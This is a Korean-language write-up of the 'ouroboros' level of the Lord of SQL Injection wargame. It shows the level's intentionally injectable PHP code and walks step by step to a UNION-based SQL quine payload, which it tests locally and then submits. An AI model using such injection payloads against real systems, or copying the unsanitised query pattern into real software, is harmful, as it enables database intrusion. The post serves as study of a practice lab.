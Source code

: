 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - ouroboros 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - mingzzi
  - Write-up
  - Lord of SQL Injection
---
```


얼마 전 `LOS`를 올클했다.  

그런데 문제중에 하나가 굉장히 신박했었어서 여기에 적어두려고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select pw from prob_ouroboros where pw=''
----------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

첨에는 문제 보자마자 `오?` 했다.  

그래서 신나게 `?pw=1' or pw like '%'%23`을 입력 해 보았다.  

그런데 아무런 결과도 나오지 않았다.  

보아하니 테이블을 비워 둔 것 같았다.  

그럼.. 내가 입력 한 값이 곧 결과값이 되어야 하는데, 이걸 도저히 어떻게 해야하는지 감이 안잡혔다.  

`?pw=1' union select '1`을 입력하면, `Pw : 1`이 출력되서 `뭔가 union을 써야 하는구나...`는 알겠는데 어떻게 해야 내가 입력한 값과 출력 값이 같게 만들 수 있는지를 모르겠더라.  

그런데 인터넷을 보면 `Quine`라는 것이 있었다.    

[위키백과 - Quine](https://en.wikipedia.org/wiki/Quine_(computing))  

[SQLi Quine](https://www.shysecurity.com/post/20140705-SQLi-Quine)

찾아보니 이 두 가지가 제일 도움이 되었다.  

즉, `Quine`은 `자기 자신의 소스코드를 출력하는 것`을 의미한다고 한다.  

이번 문제에 딱 맞는 컨셉이다.  

그래서 위의 링크 중에 위키백과에서 아래와 같은 쿼리문을 가져와 테스트 해 보았다.  

```
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

그 결과 내가 입력한 내용이 그대로 결과 값으로 나온 것을 확인할 수 있었다.  

```
mysql> SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine; 
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Quine                                                                                                                                                                                                      |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

이 것을 바탕으로 문제를 풀기 위해 `SELECT`를 `a' union SELECT`로 변경했다.  

그랬더니 `'`와 `"`이 내가 입력한 값과 조금씩 달라졌다.  

왜 바뀌는지 도저히 모르겠어서 `REPLACE` 함수를 기준으로 쿼리문을 잘라서 비교 해 보았다.  

쿼리를 살펴 보면 `$`가 있는데, 앞의 두 `$` 자리에 마지막의 `SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine`가 `REPLACE` 되어 들어가게 된다.  

그 과정에서 `"`가 `'`로 바뀌게 되는데, 나는 쿼리의 시작 부분에서 `a' union SELECT`가 필요하므로, 처음에 `a"`로 입력하고 이 후 `REPLACE` 함수를 실행하는 과정에서 `a'`로 바뀌도록 했다.  

어차피 뒤의 `a" union SELECT` 부분은 실제로 쿼리가 실행되는 부분이 아니어서 상관없기 때문이다.  

그 결과 만들어진 쿼리는 아래와 같다.  

```
select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

내가 내 서버에서 테스트 한 쿼리인데 너무 복잡해서 알아보기가 힘든 것 같다.  

```
mysql> select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| pw                                                                                                                                                                                                                                    |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.01 sec)
```

쿼리를 실행 한 결과, 내가 입력 한 쿼리가 그대로 결과 값으로 나온 것을 확인할 수 있다.  

드디어 이를 바탕으로 아래와 같은 쿼리스트링을 넘겨주었다.  

```
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23
```

이 복잡한 쿼리를 통해 드디어 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_ouroboros where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#
OUROBOROS Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

`OUROBOROS Clear!!`

